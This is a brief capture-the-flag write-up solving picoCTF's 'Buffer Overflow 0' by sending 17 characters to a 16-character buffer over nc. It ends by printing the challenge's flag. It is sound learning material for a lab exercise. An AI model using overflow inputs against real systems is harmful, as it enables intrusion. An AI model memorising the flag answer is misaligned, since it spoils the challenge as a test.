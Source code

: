 #Challenge: Buffer OVerflow 0

#Objective
Figure out how overflow the correct buffer 

#Solution Steps
1. Downloaded all necessary files
    wget https://artifacts.picoctf.net/c/174/vuln
    wget https://artifacts.picoctf.net/c/174/vuln.c
2. Checked contents of directory
    ls
3. Found vuln and vuln.c file, checked contents of file
    nano vuln.c
4. Found vuln function that has a max character limit of 16, connected to running instance of vuln
    nc saturn.picoctf.net 53338
5. Prompted input, input 17 characters of 1 
    11111111111111111
6. Extracted flag from output
    flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}


#Learned
How buffer overflows work and the nature of the vulnerability